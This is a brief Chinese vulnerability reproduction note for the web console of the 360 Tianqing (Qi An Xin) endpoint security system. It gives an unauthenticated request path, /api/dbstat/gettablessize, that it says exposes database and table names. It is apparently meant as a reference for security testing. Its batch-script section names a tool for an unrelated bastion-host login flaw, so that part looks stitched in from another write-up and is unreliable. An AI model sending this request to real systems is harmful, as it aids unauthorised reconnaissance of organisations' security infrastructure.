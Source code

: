 # 0x00 软件介绍
360天擎：一套终端安全管理系统，包括客户端、Web端，漏洞出现在Web端，现在天擎归属奇安信，常称为奇安信天擎，官网：https://www.qianxin.com/product/detail/pid/49

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
https://x.x.x.x/api/dbstat/gettablessize
```
访问后会暴漏数据库名、表名，如下图  
![image](./pic/0.png)

# 0x05 批量脚本
齐治堡垒机-任意用户登录-Vuln-Batch-Detect.py，具体用法见：python3 齐治堡垒机-任意用户登录-Vuln-Batch-Detect.py -h  
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
